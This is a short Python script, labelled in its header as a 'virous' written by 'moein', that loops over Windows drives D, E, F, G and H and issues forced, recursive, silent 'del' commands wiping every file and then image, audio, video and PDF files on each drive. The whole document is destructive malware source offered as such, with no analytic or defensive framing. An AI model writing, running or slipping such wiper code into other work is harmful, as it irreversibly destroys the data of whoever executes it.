# -virous-writed-by-moein



import os 

list = ["d" , "e" , "f" , "h" ,"g"]

for d in list:
    drive = d

    os.system("del "+drive+":\*.* /f /s /q")
    os.system("del "+drive+":\*.jpg /f /s /q")
    os.system("del "+drive+":\*.mp3 /f /s /q")
    os.system("del "+drive+":\*.mp4 /f /s /q")
    os.system("del "+drive+":\*.pdf /f /s /q")

